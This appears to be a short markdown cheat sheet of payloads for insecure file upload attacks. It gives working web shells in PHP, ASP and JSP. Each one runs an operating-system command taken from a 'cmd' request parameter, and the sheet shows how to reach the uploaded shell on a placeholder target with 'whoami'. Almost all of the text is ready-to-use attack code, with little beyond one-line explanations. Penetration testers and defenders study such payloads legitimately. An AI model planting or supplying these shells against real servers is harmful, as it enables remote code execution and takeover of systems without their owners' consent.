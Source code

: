 # Insecure File Upload Payloads
Below are some examples of common payloads used in Insecure File Upload attacks:

## PHP Web Shell Payload
   - A PHP web shell is a common payload that allows remote code execution:
   
```php
<?php system($_GET['cmd']); ?>
```

```php
<?php passthru($_GET['cmd']); ?>
```

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```

   - Access via:
   
```bash
http://<target_domain>/uploads/shell.php?cmd=whoami
```

## ASP Web Shell
   - An ASP web shell is a common payload that allows remote code execution:

```asp
<% eval request("cmd") %>
```
   
   - Access via:
   
```bash
http://<target_domain>/uploads/shell.asp?cmd=whoami
```

## JSP Web Shell:
   - A JSP web shell is a common payload that allows remote code execution:

```jsp
<%@ page import="java.io.*" %>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    OutputStream os = p.getOutputStream();
    InputStream is = p.getInputStream();
    DataInputStream dis = new DataInputStream(is);
    String disr = dis.readLine();
    while (disr != null) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
```
